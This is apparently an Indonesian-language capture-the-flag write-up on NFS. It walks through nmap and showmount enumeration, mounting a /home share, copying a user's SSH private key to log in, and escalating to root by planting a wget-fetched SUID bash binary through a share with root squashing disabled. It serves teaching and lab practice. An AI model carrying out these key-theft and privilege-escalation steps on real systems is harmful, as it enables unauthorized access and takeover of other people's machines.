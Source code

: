 # Understanding NFS

NFS atau Network File System yang mana memungkinkan system untuk sharing direktori dan file with others melalui network. Dengan menggunakan NFS, user dan program dapat mengakses file pada remote system hampir seperti menggunakan local files. Hal ini dilakukan dengan cara 'mounting' semua file/dir, atau beberapa porsi file system saja di server. Filesystem yang di mount dapat diakses oleh client dengan privilege apapun yang diatur dalam file.

### How NFS Works

Pertama, client akan meminta untuk memasang direktori dari remote host pada direktori lokal dengan cara yang sama seperti client dapat memasang perangkat fisik. Layanan mount kemudian akan bertindak untuk terhubung ke daemon mount yang relevan menggunakan RPC. Server selanjutnya akan mengecek jika user punya permission untuk mounting direktori apapun yang di request. selanjutnya nanti akan memberikan file handle yang mana secara unik mengidentifikasi setiap file dan direktori yang ada di server.

Jika seseorang ingin mengakses file menggunakan NFS, pemanggilan RPC atau RPC call akan diletakkan di NFSD (NFS daemon) di server. Call ini mengambil parameter seperti:

1. The file handle
2. The name of the file to be accessed
3. The user's, user ID
4. The user's group ID

parameter-parameter tersebut digunakan dalam menentukan hak akses ke file tertentu, seperti read atau write file. NFS dapat digunakan untuk transfer file antar OS.

# Enumerating NFS

lakukan enumerating menggunakan nmap

```shell
nmap -p- -A -oN enumer 10.10.158.157
```

hasilnya

```shell
...
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 73:92:8e:04:de:40:fb:9c:90:f9:cf:42:70:c8:45:a7 (RSA)
|   256 6d:63:d6:b8:0a:67:fd:86:f1:22:30:2b:2d:27:1e:ff (ECDSA)
|_  256 bd:08:97:79:63:0f:80:7c:7f:e8:50:dc:59:cf:39:5e (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100021  1,3,4      39975/tcp6  nlockmgr
|   100021  1,3,4      40473/udp   nlockmgr
|   100021  1,3,4      46593/tcp   nlockmgr
|   100021  1,3,4      48792/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
46593/tcp open  nlockmgr 1-4 (RPC #100021)
51191/tcp open  mountd   1-3 (RPC #100005)
51685/tcp open  mountd   1-3 (RPC #100005)
53283/tcp open  mountd   1-3 (RPC #100005)
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.5 (93%)
...
```

selain itu, kita dapat melihat dir yang dishare di NFS dengan cara 

```shell
/usr/sbin/showmount -e <IP target>
```

hasilnya adalah `/home`. Selanjutnya kita mounting NFS ke local dengan cara 

```shell
sudo mount -t nfs <IP target>:/home /tmp/mount/ -nolock
```

- `-t nfs` : specify device dan service yang akan di mount.
- `-nolock` : specifies not to use NLM locking.

setelahnya akan ada dir baru di `/tmp/mount/`, yaitu `/tmp/mount/cappucino`. kita dapat pindah ke sana dengan `cd`, lalu cek isinya dengan `ls -la`. ternyata tidak ada file menarik selain folder `.ssh`. maka kita bisa ambil private key miliki user `cappucino` ini dengan `cp /tmp/mount/cappucino/.ssh/id_rsa ~/Downloads/id_rsa`, lalu gunakan private key tersebut untuk login ke ssh.

```shell
ssh -i ~/Downloads/id_rsa cappucino@<IP target> -p 22
```

# Exploiting NFS

selanjutnya kita akan exploit NFS dengan metode priv_esc. Namun secara default, pada share NFS, pengaturan Root Squashing adalah enabled, dan hal ini mencegah siapa pun yang terhubung ke NFS punya root access ke volume NFS. Remote root user diberi pengguna '**nfsnobody**' saat terhubung, yang memiliki permission paling sedikit. Tentu hal itu tidak seperti yang kita inginkan. Namun, jika ini dimatikan, hal ini dapat memungkinkan pembuatan file bit SUID, memungkinkan remote root access ke sistem yang terhubung.

SUID merupakan permission yang mana memungkinkan user manapun run file dengan permission yang sama seperti owner file. Metodenya adalah kita download file bash executable dari [sini](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash), atau dapat menggunakan `wget` melalui terminal

```shell
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

```script
Mapped Pathway by TryHackMe
    NFS Access ->
    |_Gain Low Privilege Shell ->
    |__Upload Bash Executable to the NFS share ->
    |___Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
    |____Login through SSH ->
    |_____Execute SUID Bit Bash Executable ->
    |______ROOT ACCESS
```

setelah file bash exec telah didownload, kita pindahkan ke `/tmp/mount/cappucino`, lalu ubah owner menjadi root, dan juga ubah permission ke SUID dan executable dengan cara

```shell
sudo chown root bash

sudo chmod +sx bash
```

setelah itu kita beralih ke ssh, jika belum login, login ke ssh dengan id_rsa sebelumnya. Jika sudah login, maka kita dapat langsung execute file bash dengan cara `./bash -p`. Jika berhasil maka tampilan terminal akan berubah menjadi `bash-4.4#`. kita dapat langsung berpindah ke root dir dan mengambil flag yang diperlukan

```shell
cd /root
cat root.txt
```
